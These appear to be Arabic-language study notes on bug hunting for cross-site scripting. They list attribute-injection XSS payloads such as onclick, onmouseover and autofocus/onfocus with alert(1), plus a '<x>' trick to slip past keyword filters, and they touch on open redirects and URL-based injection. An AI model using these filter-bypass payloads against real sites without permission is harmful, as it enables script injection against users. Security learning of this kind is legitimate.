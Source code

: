 ## 1️⃣اول فكره لو المتصفح بيمنع كلمات من ال payload اي الحل
{ #XSS_Idea_for_script_tag }


![2025-05-09 17-07-55.mkv](attachments/2025-05-09 17-07-55.mkv)

-----
## 2️⃣ حقن HTML داخلي – بدائل (Inline HTML Injection)
{ #Inline_HTML_Injection}
 لو المتصفح بيمنع ال `<`و ال `>` و بيعملهم   Html Encode من ال payload اي الحل
![2025-05-11 15-46-45.mkv](attachments/2025-05-11 15-46-45.mkv)

#### البايلود اللي في الشرح
```javascript
test" onclick="alert(1)"
بايلود اخري 
"onmouseover=alert(1) // 
"autofocus onfocus=alert(1) //
'-alert(1)-'
'/alert(1)//
```
##### 🧠 فكرة ذكية: استخدم `<x>` داخل الكلمات لتضليل الفلتر:

```html
"o<x>nmouseover=alert<x>(1)
```

-----
## 3️⃣ لو لقيت redirect في ال url 
#ideas_for_url
#### الشرح :

![2025-05-17 21-27-58.mkv](attachments/2025-05-17 21-27-58.mkv)

#### الملف اللي في الشرح :
![xx redirect.txt](attachments/xx redirect.txt)

----
## 4️⃣ مش شرط تحط ال payloads في ال مكان ال input ممكن تحطه في ال url  
{ #XSS_Idea_for_script_tag / #ideas_for_url  }
#### الشرح :

![2025-05-19 02-34-13.mkv](attachments/2025-05-19 02-34-13.mkv)

----
